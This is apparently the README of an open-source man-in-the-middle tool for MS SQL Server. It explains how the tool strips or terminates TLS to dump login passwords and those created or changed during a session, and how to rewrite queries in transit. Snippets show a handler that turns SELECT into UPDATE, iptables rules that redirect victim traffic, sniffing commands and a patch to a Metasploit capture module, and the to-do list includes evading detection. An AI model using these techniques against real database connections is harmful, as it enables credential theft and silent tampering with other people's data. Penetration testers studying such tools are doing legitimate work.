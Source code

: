 # MITM SQL proxy (TLS supported)

Tool for MS SQL Man In The Middle attack which supports TLS encryption. 

## How it works:
It listens for connection pretending to be a real MS SQL server, decrypts traffic to obtain credentials or manipulate the queries and connect back to real SQL server and forward traffic.
When possible it downgrades connection to non-encrypted on both sides, if not it decrypts and encrypts data on-the-fly (on one or both sides depending on need) giving access to unencrypted data if only certificate is not verified on client side (which is default on most applications) or user can provide appropriate acceptable certificate.

In the future also server emulation option is planned - no SQL server will be needed to obtain credentials from the client.

## Dumping passwords
It shows passwords of connected users as well as those created or altered (changed) during the connection.

![screen](https://github.com/defragmentator/mitmsqlproxy/blob/master/screen.png?raw=true)



## Easy sniffing
To allow easy sniffing decrypted traffic by default is passing by loop on 127.0.0.1:1434
```
tcpdump -i lo port 1434 -X
```
## Easy queries manipulation
Traffic can be also easy redirected to some other middle application to manipulate queries. It needs to listen on some port, manipulate the data and send it back to some other port. All processed data is already decrypted.

As example *manipulation_example.py3* show how to change all SELECT queries to UPDATE on-the-fly:

```python
...
    def dataReceived(self, data):
        i = data.find("SELECT".encode('utf-16le'))
        if i > -1:
            print("FOUND: SELECT - replacing to UPDATE")
            rstr = "UPDATE".encode('utf-16le')
            data = data[:i] + rstr + data[i + len(rstr):]
...
```

```
./mitmsqlproxy.py 192.168.123.2 -d -lcp 1444 &

./manipulation_example.py
```
*Note: in this example substitution of strings of the same length is performed. If string length changes it is needed to recalculate TDS frame values. Here impacket.tds package can be helpful.*

## No certificate needed
Self-signed certificate is generated on-the-fly. For default configuration of SQL libraries, it will work (only login packet is encrypted).
If on client side full encryption is forced ("Encrypt connection" is selected or "Encrypt=true;" is present in the connection string) **it will work only when "Trust server certificate" is selected or 'TrustServerCertificate=true' is in connection string**. Trusted cerificate can be also provided in command line.

If needed custom user cert can be loaded from a file.

## Transparent traffic redirection 
If traffic goes through the machine interface it can be redirected to listening port with iptables like this:
```
sysctl net.ipv4.ip_forward=1 
iptables -t nat -A PREROUTING -p tcp --dport 1433 -j DNAT --to-destination 127.0.0.1:1433
```

## Command line options
```
usage: mitmsqlproxy.py [-h] [-port PORT] [-lport LPORT] [-q | -d | -dd] [-ll ip_address] [-llp port]
                       [-lc ip_address] [-lcp port] [--disable-loop] [--cert my.crt] [--key my.key]
                       target

MSSQL MITM proxy (SSL supported).

positional arguments:
  target          MSSQL server name or address

options:
  -h, --help      show this help message and exit
  -port PORT      MSSQL server port (default 1433)
  -lport LPORT    local listening port (default 1433)
  -q              quiet mode
  -d              show more info
  -dd             show debug info

Internal connection loop - decrypted data is sent to certain port (default 127.0.0.1:1434) and coming back to mitmslqproxy to be encrypted and send further. This option allows to sniff or even modify unencrypted SQL traffic in the fly with third party application:
  -ll ip_address  loop listening address (default 127.0.0.1)
  -llp port       loop listening address port (default 1434)
  -lc ip_address  loop connecting address (default 127.0.0.1)
  -lcp port       loop connecting address port (default 1434)
  --disable-loop  disable internal loop - if both sides will negotiate encryption sniffing will be
                  useless, only credentials will be shown on console (raw data only in debug mode)

TLS custom private key and certificate (by default it is dynamically generated):
  --cert my.crt   certificate file
  --key my.key    private key file
```
# Inspirations and similar tools

* metasploit auxiliary/server/capture/mssql - despite the visible option *SSL,SSLCert* it does not support encryption. It supports NTLM, but it is useful only when client is executed on the same machine as server. For newer clients it needs to be updated like this:
 ```
  def mssql_send_prelogin_response(c, info)
    data = [
      Constants::TDS_MSG_RESPONSE,
      1, # status
#      0x002b, # length
      0x0030, # length
      #"0000010000001a00060100200001020021000103002200000400220001ff0a3206510000020000"
      "0000010000001f000601002500010200260001030027000004002700010500280000ff0f0008350000020001"
    ].pack("CCnH*")
    c.put data
  end
```

* SSLsplit - has autossl option to detect ClientHello packet for STARTTLS et al, but it can find it only on the beginning of the packet. In TDS all handshake packets need to have TDS header so even with proper ClientHello detection it will not work (what is wired, after handshake TDS headers are dropped and included inside TLS tunnel).

* PolarProxy, stunnel - they are good for HTTP, but they cannot be configured for partial encryption with custom header.

* SQL Server Profiler - will redact LOGIN CREATE/ALTER passwords (it will work only on very old versions), won't show login credentials.

* SSLKEYLOGFILE environment variable will not work for other apps (MSSQL Clients) like for the web browsers. Even adding this option to Impacket's mssqlclient.py didn't work for me. When only TDS_LOGIN7 packet is encrypted probably because of lack of certificate use. 

* https://blog.thinkst.com/2015/11/stripping-encryption-from-microsoft-sql.html and their script https://gist.github.com/thinkst/db909e3a41c5cb07d43f - works as proxy, can downgrade to no encryption, but it needs to be tuned by hand with editing hexs. TLS is not supported.

* https://github.com/MindFlavor/TDSBridge - works as proxy. Authors say "(it even works with server side forced encryption)", but it didn't work for me and as far as I searched, I did not find the code responsible for encryption in the sources.

* Echo Mirage - very old and did not work - should inject to a process and get data before/after encryption.

# To do
* NTLM support
* stand-alone option - emulating MS SQL Server as long as we can (catch credentials, try to respond to queries with empty responses to get LOGIN CREATE/ALTER passwords)
* search for custom queries defined by regular expressions
* overwriting Servername in TDS_LOGIN7 packet (server does not check this, but this way MITM attack can be now identified)
